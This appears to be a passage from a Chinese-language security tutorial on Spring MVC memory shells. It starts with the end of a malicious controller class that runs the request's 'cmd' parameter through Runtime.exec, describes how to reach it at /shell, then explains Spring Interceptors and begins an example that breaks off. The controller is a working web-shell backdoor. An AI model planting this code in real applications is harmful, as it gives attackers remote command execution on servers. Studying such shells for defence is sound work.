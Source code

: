 ```java
        public Controller_Shell(){}

        public void shell() throws IOException {

            //获取request
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
    }

}
```

首先访问`/control`路由，由于`Controller`默认会将结果交给View`处理`，返回值通常会被解析成一个页面路径，所以这里会报`404`错误。我们可以使用`@ResponeBody`来将`Controller`的方法返回的对象，通过适当的`HttpMessageConverter`转换为指定格式后，写入到`Response`对象的`body`数据区。
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712889159796-55c8a568-c626-49b2-8e11-fd25e09bc50a.png)
然后访问我们定义恶意`Controller`的路由`/shell`
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712889216419-5c1cf809-d122-4876-89cc-436645b2d73f.png)

## 5.3、Interceptor

### 5.3.1、什么是 Interceptor

`Spring MVC` 的拦截器（`Interceptor`）与 `Java Servlet` 的过滤器（`Filter`）类似，它主要用于拦截用户的请求并做相应的处理，通常应用在权限验证、记录请求信息的日志、判断用户是否登录等功能上。
在 `Spring MVC` 框架中定义一个拦截器需要对拦截器进行定义和配置，主要有以下 2 种方式。

- 通过实现 `HandlerInterceptor` 接口或继承 `HandlerInterceptor` 接口的实现类（例如 `HandlerInterceptorAdapter`）来定义
- 通过实现 `WebRequestInterceptor` 接口或继承 `WebRequestInterceptor` 接口的实现类来定义

### 5.3.2、Interceptor示例

这里我们选择继承`HandlerInterceptor`接口来实现一个`Interceptor`。`HandlerInterceptor`接口有三个方法，如下

- `preHandle`：该方法在控制器的处理请求方法前执行，其返回值表示是否中断后续操作，返回 `true` 表示继续向下执行，返回 `false` 表示中断后续操作。
- `postHandle`：该方法在控制器的处理请求方法调用之后、解析视图之前执行，可以通过此方法对请求域中的模型和视图做进一步的修改。
- `afterCompletion`：该方法在控制器的处理请求方法执行完成后执行，即视图渲染结束后执行，可以通过此方法实现一些资源清理、记录日志信息等工作。

```java
package com.shell.interceptor;
 
import org.springframework.web.servlet.HandlerInterceptor;
 
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;
 
public class Spring_Interceptor implements HandlerInterceptor {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String url = request.getRequestURI();
        PrintWriter writer = response.getWriter();
        //如果请求路径为/login则放行
        if ( url.indexOf("/login") >= 0){
            writer.write("LoginIn");
            writer.flush();
            writer.close();
            return true;
        }
        writer.write("LoginInFirst");
        writer.flush();
```